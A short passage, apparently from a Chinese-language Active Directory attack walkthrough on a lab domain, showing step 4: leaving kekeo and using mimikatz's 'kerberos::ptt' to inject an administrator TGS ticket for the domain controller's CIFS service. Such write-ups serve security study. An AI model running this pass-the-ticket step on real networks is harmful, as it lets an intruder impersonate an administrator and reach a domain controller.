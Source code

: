 [![](assets/1705982146-abf448b77d1e675944de6f0ff75f7af4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223127-98260f62-b7a0-1.png)  
Step 4:从kekeo中使用exit命令退出，然后使用mimikatz将生成的TGS文件导入到Kerberos凭据列表中

```plain
kerberos::ptt TGS_administrator@hacke.testlab@HACKE.TESTLAB_cifs~dc.hacke.testlab@HACKE.TESTLAB.kirbi
```
